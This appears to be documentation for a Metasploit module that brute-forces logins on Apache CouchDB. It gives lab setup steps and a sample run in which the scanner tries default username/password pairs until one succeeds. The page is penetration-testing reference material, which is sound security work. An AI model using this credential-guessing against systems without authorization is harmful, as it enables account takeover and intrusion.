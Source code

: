 ## Vulnerable Application

Apache CouchDB is a nosql database server which communicates over HTTP.  This module will enumerate the server and databases hosted on it.

### Docker setup
  1. `docker run -p 5984:5984 --env COUCHDB_USER=admin --env COUCHDB_PASSWORD=password apache/couchdb:3.3.1`
     After running this command you will see the server is returning errors, to resolve this we must run some cURL commands.

  2. In another window, after startup, run the following three cURL commands:
   ```
   $ curl localhost:5984
   {"couchdb":"Welcome","version":"2.1.1","features":["scheduler"],"vendor":{"name":"The Apache Software Foundation"}}
   ```
   ```
   $ curl -X PUT http://admin:password@localhost:5984/_users
   {"ok":true}
   ```
   ```
   $ curl -X PUT http://admin:password@localhost:5984/_replicator
   {"ok":true}
   ```
   ```
   $ curl -X PUT http://admin:password@localhost:5984/_global_changes
   {"ok":true}
   ```

  After running these commands you should get the following response when accessing http://localhost:5984/.
   ```
  {"couchdb":"Welcome","version":"3.3.1","git_sha":"1fd50b82a","uuid":"bb8a05afa55cd9407a9532d05de65736","features":["access-ready","partitioned","pluggable-storage-engines","reshard","scheduler"],"vendor":{"name":"The Apache Software Foundation"}}
  ```

### Ubuntu 16.04 Setup
The following was done on Ubuntu 16.04, and is largely based on [1and1.com](https://www.1and1.com/cloud-community/learn/database/couchdb/install-and-use-couchdb-on-ubuntu-1604/):
  
  1. `sudo apt install software-properties-common`
  2. `sudo add-apt-repository ppa:couchdb/stable`
  3. `sudo apt update`
  4. `sudo apt install couchdb`
  5. Reconfigure couchdb to listen to all interfaces. Edit `/etc/couchdb/local.ini`. Under `[httpd]` add the following line: `bind_address = 0.0.0.0`
  6. Restart the service: `sudo service couchdb restart`
  7. Create an admin user `curl -X PUT http://127.0.0.1:5984/_config/admins/anna -d '"secret"'`

## Verification Steps

  1. Install and configure couchdb
  2. Start msfconsole
  3. Do: `auxiliary/scanner/couchdb/couchdb_login`
  4. Do: `run`

## Scenarios

  A run against the configuration from these docs

  ```
  msf > use auxiliary/scanner/couchdb/couchdb_login 
  msf auxiliary(scanner/couchdb/couchdb_login) > set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  msf auxiliary(scanner/couchdb/couchdb_login) > set username anna
  username => anna
  msf auxiliary(scanner/couchdb/couchdb_login) > set password secret
  password => secret
  msf auxiliary(scanner/couchdb/couchdb_login) > run
  
  [*] 1.1.1.1:5984 - [001/305] - Trying username:'connect' with password:'connect'
  [*] 1.1.1.1:5984 - [002/305] - Trying username:'sitecom' with password:'sitecom'
  [*] 1.1.1.1:5984 - [003/305] - Trying username:'admin' with password:'1234'
  [*] 1.1.1.1:5984 - [004/305] - Trying username:'cisco' with password:'cisco'
  [*] 1.1.1.1:5984 - [005/305] - Trying username:'cisco' with password:'sanfran'
  [*] 1.1.1.1:5984 - [006/305] - Trying username:'private' with password:'private'
  [*] 1.1.1.1:5984 - [007/305] - Trying username:'wampp' with password:'xampp'
  [*] 1.1.1.1:5984 - [008/305] - Trying username:'newuser' with password:'wampp'
  [*] 1.1.1.1:5984 - [009/305] - Trying username:'xampp-dav-unsecure' with password:'ppmax2011'
  [*] 1.1.1.1:5984 - [010/305] - Trying username:'admin' with password:'turnkey'
  [*] 1.1.1.1:5984 - [011/305] - Trying username:'vagrant' with password:'vagrant'
  [*] 1.1.1.1:5984 - [012/305] - Trying username:'anna' with password:'secret'
  [+] 1.1.1.1:5984 - Successful login with. 'anna' : 'secret'
  [*] 1.1.1.1:5984 - [013/305] - Trying username:'admin' with password:'secret'
  ...snip...
  ```
